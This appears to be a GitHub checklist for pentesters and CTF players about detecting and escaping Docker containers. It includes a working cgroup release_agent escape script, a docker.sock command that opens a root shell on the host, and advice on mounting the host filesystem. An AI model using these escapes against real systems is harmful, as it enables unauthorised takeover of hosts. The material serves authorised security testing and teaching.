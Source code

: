 # Attackers - Compromised Container Checklist

A list of things you can try if you're doing a CTF/Pentest/Bug bounty and find yourself in a container.

## Confirming you're in a container.

### Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

### Tools for checking

- Run [amicontained](https://github.com/genuinetools/amicontained)

## Breaking out

### High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

### Tooling

[tools list here](tools_list.md)

### Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

save it as `escape.sh` and you can use it like

```bash
./escape.sh ps -ef
```

Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

### Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

## Other Avenues of attack

Avenues of attack that aren't directly related to breaking out of the container

### keyctl-unmask

As described in [this post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) it may be possible to get keys from the kernel keyring on a Docker host, and use those for breakouts or other access to the host or related machines.

